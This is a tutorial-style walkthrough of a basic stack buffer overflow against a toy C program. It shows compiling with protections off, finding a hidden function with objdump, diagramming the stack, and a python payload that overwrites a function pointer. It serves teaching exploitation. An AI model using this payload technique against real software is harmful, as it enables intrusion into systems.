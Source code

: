 #### Basic exploitation example walkthrough

`$ gcc -m32 -fno-stack-protector -z execstack -ex101.c -o ex101`

1.  In this example, we attempt to execute an unused functon

    1.  Assuming we have identified a vanilla buffer overflow vulnerability
    
    2.  Identify the address of the `hidden` function.
    
        `$ objdump -D -M intel exp101 | grep -e "hidden"`
        
        The dump file is provided [here](ex101.dump)
        
    3.   We wish to analyse the stack such that we know where our payload goes!
    
        ```
        Expected memory structure
        |-----------------------|<--------- Low addresses
        |                       |
        |                       |
        |                       |
        |                       |
        |-----------------------|<--------- Frame pointer (Top of stack)
        |   buffer[0]='A'=0x41  | 1 byte
        |-----------------------|
        |       buffer[1]       |   "
        |-----------------------|
        |       buffer[2]       |   "
        |-----------------------|
        |       buffer[3]       |   "
        |-----------------------|
        |       buffer[4]       |   "
        |-----------------------|
        |           ...         |   "
        |-----------------------|
        |      buffer[31]       |   "
        |-----------------------|
        |        f = NULL       | 4 bytes 
        |-----------------------|
        |  Saved Frame pointer  |   "
        |-----------------------|
        |     return address    |   "  <--- Address to return to in main
        |-----------------------|
        |           a           |   "
        |-----------------------|
        |           b           |   "
        |-----------------------|
        |           c           |   "
        |-----------------------|
        |           d           |   "
        |-----------------------|<--------- High addresses
        ```
        
    4.  From the model, we require `32 bytes` of data to fill the buffer and an extra `4 bytes` to overwrite `f`.
    
        +   The extra `4 bytes` to overwrite `NULL` in `f` will be the address of `hidden`. In my case, it is `0x0804843b`
    
            `$ python -c "print '\x41'*32 + '\x3b\x84\x04\x08'"`
            
            The weird address byte order relates to endianess.
            
            ![alt text](soln.png)
